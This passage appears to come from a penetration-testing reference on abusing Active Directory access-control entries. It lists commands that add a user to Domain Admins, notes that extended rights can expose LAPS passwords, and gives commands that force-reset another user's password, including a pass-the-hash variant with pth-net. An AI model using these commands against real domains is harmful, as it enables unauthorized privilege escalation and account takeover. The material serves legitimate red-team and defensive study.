 ### AddMember

An attacker can add a user/group/computer to the group this ACE applies to. This can be achieved with a native command line, with the Active Directory PowerShell module, or with [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module\).

```bash
# Command line ()
net group 'Domain Admins' 'user' /add /domain

# Powershell: Active Directory module
Add-ADGroupMember -Identity 'Domain Admins' -Members 'user'

# Powershell: PowerSploit module
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'user'
```

### AllExtendedRights

This ACE can be abused just like [`AddMember`](abusing-aces.md#addmember) \(when applying to a group\) or [`ForceChangePassword`](abusing-aces.md#forcedchangepassword) \(when applying to a user account\). In some cases, it can also be abused like [`ReadLAPSPassword`](abusing-aces.md#readlapspassword).

> If a group is delegated “All Extended Rights” to an OU \(Organizational Unit\) that contains computers managed by LAPS, this group has the ability to view confidential attributes, including the LAPS \(Local Administrator Password Solution\) attribute `ms-mcs-admpwd` which contains the clear text password.
>
> [adsecurity.org](https://adsecurity.org/?p=3164)

### ForceChangePassword

An attacker can change the password of the user this ACE applies to. This can be achieved with [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module\).

```bash
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $NewPassword
```

It can also be achieved from UNIX-like system with [net](https://linux.die.net/man/8/net), a tool for the administration of samba and cifs/smb clients. The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can also be used to run net commands with [pass-the-hash](abusing-ntlm/pass-the-hash.md).

```bash
# With net and cleartext credentials (will be prompted)
net rpc password $TargetUser -U $DOMAIN/$ControlledUser -S $DomainController

# With net and cleartext credentials
net rpc password $TargetUser -U $DOMAIN/$ControlledUser%$Password -S $DomainController

# With Pass-the-Hash
pth-net rpc password $TargetUser -U $DOMAIN/$ControlledUser%ffffffffffffffffffffffffffffffff:$NThash -S $DomainController
```

